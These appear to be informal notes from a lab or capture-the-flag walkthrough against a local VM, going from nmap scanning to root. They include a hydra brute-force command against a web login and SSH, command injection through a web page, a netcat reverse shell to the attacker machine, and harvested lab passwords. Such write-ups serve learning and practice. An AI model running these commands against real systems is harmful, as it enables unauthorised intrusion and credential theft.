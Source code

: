 ifconfig

netdiscover -r <ip>.0/24 -i eth1

ping 192.168.56.105

nmap 192.168.56.105

22 and 80 open, so let's check out website - admin login page

BF it

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.105 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F

login: admin / happy

page runs commands, open inspector

change value of ls -l to see if we can inject our own linux CLI code (cd /home/; ls -l)

works + see info so let's make a reverse shell

in terminal: nc -lvp 4000

inject into site: nc 192.168.56.104 4000 -e /bin/sh

now have reverse shell of website on our terminal

cd /home/

cd jim

cd backups

cat old-passwords.bak (copy and paste save this on ur desktop)

open new terminal

hydra -l jim -P j

imsPW.txt 192.168.56.105 ssh

jim's ssh: jim / jibril04

ssh jim@192.168.56.105 (use password to login)

sudo su doesn't work, not in sudoer's file, so we need to change that

we got an email doing that. let's check it using

mail

if you don't see this, try cat mbox

here we see an email from charles and his password

charles / ^xHhA&hvim0y

so lets ssh as charles now

ssh charles@192.168.56.105 (use password to login

sudo su (use pw)

root access now

cd /root/

cat flag.txt
